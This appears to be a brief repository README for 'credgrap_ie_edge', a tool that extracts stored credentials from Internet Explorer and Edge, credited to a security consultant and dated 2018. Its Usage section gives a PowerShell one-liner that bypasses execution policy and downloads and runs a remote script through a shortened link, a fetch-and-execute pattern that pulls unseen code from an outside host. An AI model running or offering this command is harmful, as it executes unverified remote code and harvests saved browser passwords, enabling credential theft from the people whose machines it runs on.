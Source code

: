 # credgrap_ie_edge

Content: Extract stored credentials from Internet Explorer and Edge

Author: Florian Hansemann | @HanseSecure | https://hansesecure.de

Date: 04/2018

## Usage
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"
